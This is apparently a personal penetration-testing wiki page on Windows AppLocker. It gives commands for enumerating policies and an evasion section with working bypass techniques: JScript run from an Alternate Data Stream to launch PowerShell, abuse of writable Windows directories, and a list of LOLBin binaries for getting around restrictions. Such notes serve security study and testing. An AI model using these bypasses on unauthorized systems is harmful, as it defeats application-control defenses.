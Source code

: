 ```yaml
---
title: Windows AppLocker
---
```


AppLocker is a security feature on [[notes/windows/index]], that controls which executables, DLLs and scripts an unprivileged user can execute.
Local service accounts are usually not affected.

Unlike [[notes/windows/wdac]], Microsoft does not consider AppLocker to be a security boundary.
The default policies are insecure and can be easily bypassed.

# Discovery

When you try to run an executable that is blocked by AppLocker you get the following error: *This program is blocked by group policy. For more information, contact your system administrator.*

Show AppLocker policies as unprivileged user.

=== "PowerShell"
    ~~~ powershell
    Get-ApplockerPolicy -Effective -Xml
    Get-ApplockerPolicy -Effective | Select -ExpandProperty RuleCollections
    Get-ChildItem 'HKLM:Software\Policies\Microsoft\Windows\SrpV2'
    ~~~

Retrieve AppLocker policies from GPOs ([source](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38565426-policy-enumeration)).

=== "[[notes/tools/powerview]] + [[notes/tools/gpregistrypolicyparser]]"
    ~~~ powershell
    Get-DomainGPO -Domain corp.local | ?{ $_.DisplayName -ilike '*AppLocker*' } | Select DisplayName,GPCFileSyspath
    cp \\dc01.corp.local\SysVol\corp.com\Policies\{7E1E1636-1A59-4C35-895B-3AEB1CA8CFC2}\Machine\Registry.pol .
    Parse-PolFile .\Registry.pol
    ~~~

# Evasion

The default AppLocker policies do not apply to DLLs.
Therefore they can be easily bypassed, e.g. with `rundll32.exe`.

Furthermore executables under `C:\Program Files`, `C:\Program Files (x86)` and `C:\Windows` are allowed.
`C:\Windows` has multiple [[notes/windows/writable-directories|globally writable subdirectories]].
AppLocker can be bypassed when you have write permissions in at least one excluded directory.

Check for each writable directory if you have execution rights (`RX` or `F`).

=== "builtin"
    ~~~ bat
    icacls.exe C:\Windows\Tasks
    ~~~

Bypass AppLocker trough JScript in an *Alternate Data Stream*.

=== "cmd"
    ~~~ bat
    echo new ActiveXObject('WScript.Shell').Run('powershell.exe') > "C:\Program Files (x86)\App\Logfile.log:test.js"
    cscript.exe "C:\Program Files (x86)\App\Logfile.log:test.js"
    ~~~

More restrictive AppLocker policies can often be bypassed trough [LolBins](https://lolbas-project.github.io/) like:

~~~
C:\Windows\Microsoft.NET\Framework64\*\InstallUtil.exe
C:\Windows\Microsoft.NET\Framework64\*\MSBuild.exe
C:\Windows\Microsoft.NET\Framework64\*\Microsoft.Workflow.Compiler.exe
C:\Windows\Microsoft.NET\Framework64\*\RegAsm.exe
C:\Windows\Microsoft.NET\Framework64\*\RegSvcs.exe
C:\Windows\Microsoft.NET\Framework64\*\addinprocess.exe
C:\Windows\Microsoft.NET\Framework64\*\addinprocess32.exe
C:\Windows\Microsoft.NET\Framework64\*\aspnet_compiler.exe
C:\Windows\Microsoft.NET\Framework\*\InstallUtil.exe
C:\Windows\Microsoft.NET\Framework\*\MSBuild.exe
C:\Windows\Microsoft.NET\Framework\*\Microsoft.Workflow.Compiler.exe
C:\Windows\Microsoft.NET\Framework\*\RegAsm.exe
C:\Windows\Microsoft.NET\Framework\*\RegSvcs.exe
C:\Windows\Microsoft.NET\Framework\*\addinprocess.exe
C:\Windows\Microsoft.NET\Framework\*\addinprocess32.exe
C:\Windows\Microsoft.NET\Framework\*\aspnet_compiler.exe
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\System32\cmd.exe
C:\Windows\System32\cscript.exe
C:\Windows\System32\mshta.exe
C:\Windows\System32\regsvr32.exe
C:\Windows\System32\rundll32.exe
C:\Windows\System32\wscript.exe
~~~

If they are blocked search for abusable features in 3rd-party applications or installed scripting languages like Perl or Python.

References:

- [Windows 10/11: "Schein-Ordner" als Sicherheitsdesaster hebeln Applocker und SRP aus](http://web.archive.org/web/20230310190607/https://www.borncity.com/blog/2023/03/09/windows-10-11-schein-ordner-als-sicherheitsdesaster-hebeln-applocker-und-srp-aus/), AppLocker bypass by combining *Mocked* with *Trusted Folders*
- [Arbitrary, Unsigned Code Execution Vector in Microsoft.Workflow.Compiler.exe](https://scribe.rip/@specterops/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb)
- [Microsoft recommended block rules](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules), list of dangerous programs that can be used for bypasses
- [Ultimate AppLocker bypass list](https://github.com/api0cradle/ultimateapplockerbypasslist)
